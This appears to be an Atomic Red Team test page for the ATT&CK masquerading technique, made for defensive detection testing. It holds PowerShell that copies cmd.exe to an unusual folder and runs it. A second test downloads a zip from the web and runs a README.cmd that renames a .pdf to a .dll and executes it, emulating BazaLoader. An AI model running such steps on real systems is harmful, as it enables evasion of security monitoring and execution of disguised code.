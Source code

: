 # T1036 - Masquerading
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1036)
<blockquote>Adversaries may attempt to manipulate features of their artifacts to make them appear legitimate or benign to users and/or security tools. Masquerading occurs when the name or location of an object, legitimate or malicious, is manipulated or abused for the sake of evading defenses and observation. This may include manipulating file metadata, tricking users into misidentifying the file type, and giving legitimate task or service names.

Renaming abusable system utilities to evade security monitoring is also a form of [Masquerading](https://attack.mitre.org/techniques/T1036).(Citation: LOLBAS Main Site)</blockquote>

## Atomic Tests

- [Atomic Test #1 - System File Copied to Unusual Location](#atomic-test-1---system-file-copied-to-unusual-location)

- [Atomic Test #2 - Malware Masquerading and Execution from Zip File](#atomic-test-2---malware-masquerading-and-execution-from-zip-file)


<br/>

## Atomic Test #1 - System File Copied to Unusual Location
It may be suspicious seeing a file copy of an EXE in System32 or SysWOW64 to a non-system directory or executing from a non-system directory.

**Supported Platforms:** Windows


**auto_generated_guid:** 51005ac7-52e2-45e0-bdab-d17c6d4916cd






#### Attack Commands: Run with `powershell`! 


```powershell
copy-item "$env:windir\System32\cmd.exe" -destination "$env:allusersprofile\cmd.exe"
start-process "$env:allusersprofile\cmd.exe"
sleep -s 5 
stop-process -name "cmd" | out-null
```

#### Cleanup Commands:
```powershell
remove-item "$env:allusersprofile\cmd.exe" -force -erroraction silentlycontinue
```





<br/>
<br/>

## Atomic Test #2 - Malware Masquerading and Execution from Zip File
When the file is unzipped and the README.cmd file opened, it executes and changes the .pdf to .dll and executes the dll. This is a BazaLoader technique [as reported here](https://twitter.com/ffforward/status/1481672378639912960)

**Supported Platforms:** Windows


**auto_generated_guid:** 4449c89b-ec82-43a4-89c1-91e2f1abeecc





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| url | Location of zip file | url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1036/bin/T1036.zip|


#### Attack Commands: Run with `powershell`! 


```powershell
Expand-Archive -Path "PathToAtomicsFolder\..\ExternalPayloads\T1036.zip" -DestinationPath "$env:userprofile\Downloads\T1036" -Force
cd "$env:userprofile\Downloads\T1036"
cmd /c "$env:userprofile\Downloads\T1036\README.cmd" >$null 2>$null
```

#### Cleanup Commands:
```powershell
taskkill /IM Calculator.exe /f >$null 2>$null
Remove-Item "$env:userprofile\Downloads\T1036" -recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Zip file must be present.
##### Check Prereq Commands:
```powershell
if (Test-Path "PathToAtomicsFolder\..\ExternalPayloads\T1036.zip") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
Invoke-WebRequest #{url} -OutFile "PathToAtomicsFolder\..\ExternalPayloads\T1036.zip"
```




<br/>
